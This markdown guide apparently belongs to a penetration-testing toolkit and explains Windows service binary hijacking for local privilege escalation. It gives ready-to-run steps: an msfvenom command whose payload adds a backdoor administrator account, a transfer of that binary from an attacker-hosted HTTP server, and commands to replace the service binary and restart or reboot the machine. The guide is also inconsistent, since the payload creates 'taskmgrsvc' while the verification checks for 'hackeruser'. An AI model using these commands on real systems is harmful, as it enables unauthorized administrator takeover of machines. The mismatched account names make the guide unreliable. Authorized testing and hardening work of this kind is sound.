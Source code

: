 ## Service Binary Hijacking

### Overview
Each Windows service has an associated binary file. These binary files are executed when the service is started or transitioned into a running state. 

A misconfiguration, where a service binary has **Full Control (F)** permissions for low-privileged users (e.g., BUILTIN\Users), allows attackers to replace the binary with a malicious executable. When the service restarts or the system reboots, the malicious binary will execute with the privileges of the service (e.g., LocalSystem).

---

### Step 1: Identify a Vulnerable File
Start by running **WinRecon.ps1** to locate services with weak permissions:

1. **Option 2**: Run Custom Recon - (Select which functions to enable)
2. **Option 17**: Enumerate files and services for **weak permissions**.

This will provide a list of binaries or services that have insecure permissions, such as Full Control for low-privileged users (e.g., BUILTIN\Users).

Example Output:
```plaintext
[+] Service: <service>
    Binary Path:<service_path>
    BUILTIN\Users:(F)
```
```plaintext
[+] Service: BackupService
    Binary Path:C:\backups\backupsvc.exe
    BUILTIN\Users:(F)
```

In this example, the binary `C:\backups\backupsvc.exe` has **BUILTIN\Users:(F)** permissions, making it a candidate for exploitation.

---

### Exploitation Stage

#### Step 2: Generate a Malicious Executable
On our attacker machine (e.g., Kali Linux), use `msfvenom` to generate a malicious executable that creates a new user and adds it to the Administrators group:

```bash
msfvenom -p windows/exec CMD="net user taskmgrsvc Password123! /add && net localgroup administrators taskmgrsvc /add" -f exe-service -o adduser.exe
```

- **Payload**: `windows/exec` runs arbitrary commands.
- **Commands**: 
   - `net user taskmgrsvc Password123! /add`: Creates a new user `taskmgrsvc`.
   - `net localgroup administrators hackeruser /add`: Adds `hackeruser` to the Administrators group.
- **Output**: The malicious binary is saved as `adduser.exe`.

---

#### Step 3: Transfer the Malicious Binary to the Target Machine
Start a Python HTTP server to host the malicious binary:

```bash
python3 -m http.server 80
```

On the target machine, download the malicious executable using PowerShell:

```powershell
iwr -uri http://<attacker_ip>/adduser.exe -OutFile adduser.exe
```

---

#### Step 4: Replace the Service Binary
1. Backup the original binary:
   ```powershell
   move <service_path> <file_name>.bak
   ```
2. Replace it with the malicious binary:
   ```powershell
   move .\adduser.exe <service_path>
   ```

Example:
```powershell
move C:\backups\backupsvc.exe backupsvc.exe.bak
move .\adduser.exe C:\backups\backupsvc.exe
```

---

#### Step 5: Restart the Service
1. **Stop the Service**:
   ```powershell
   sc.exe stop <service_name>
   ```
2. **Start the Service**:
   ```powershell
   sc.exe start <service_name>
   ```

Example:
```powershell
sc.exe stop BackupService
sc.exe start BackupService
```

If the service cannot be restarted manually due to insufficient permissions:

1. **Check Service Startup Type**:
   ```powershell
   Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<service_name>'}
   ```
   Example:
   ```powershell
   Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'BackupService'}
   ```
   Output:
   ```plaintext
   Name           StartMode
   ----           ---------
   BackupService  Auto
   ```

2. **Reboot the System**:
   Verify that the current user has the `SeShutdownPrivilege`:
   ```powershell
   whoami /priv
   ```
   Example Output:
   ```plaintext
   SeShutdownPrivilege           Shut down the system                 Enabled
   ```

   Reboot the machine:
   ```powershell
   shutdown /r /t 0
   ```

---

#### Step 6: Verify Exploitation
After the reboot or service restart, reconnect to the target machine and check if the user `hackeruser` has been added to the Administrators group:

```powershell
Get-LocalGroupMember administrators
```

**Output**:
```plaintext
ObjectClass Name                      PrincipalSource
----------- ----                      ---------------
User        <system_name>\Administrator Local
User        <system_name>\hackeruser    Local
```

Example:
```plaintext
User        TARGETSYSTEM\Administrator Local
User        TARGETSYSTEM\hackeruser    Local
```

The output confirms the addition of `hackeruser` to the local Administrators group.

---

### Cleanup
To restore the original state of the service:
1. Delete the malicious binary:
   ```powershell
   del <service_path>
   ```
2. Restore the original binary:
   ```powershell
   move <file_name>.bak <service_path>
   ```
3. Restart the service:
   ```powershell
   sc.exe stop <service_name>
   sc.exe start <service_name>
   ```

Example:
```powershell
del C:\backups\backupsvc.exe
move backupsvc.exe.bak C:\backups\backupsvc.exe
sc.exe stop BackupService
sc.exe start BackupService
```

---

### Notes:
- This method relies on services running with high privileges (e.g., LocalSystem).
- Always back up the original binary to prevent accidental service disruption.
- Avoid rebooting production systems during penetration tests without authorization.

---

### References
- [HackTricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
- Microsoft Documentation on `icacls` and `sc.exe`

---

**End of Service Binary Hijacking Exploit Guide**
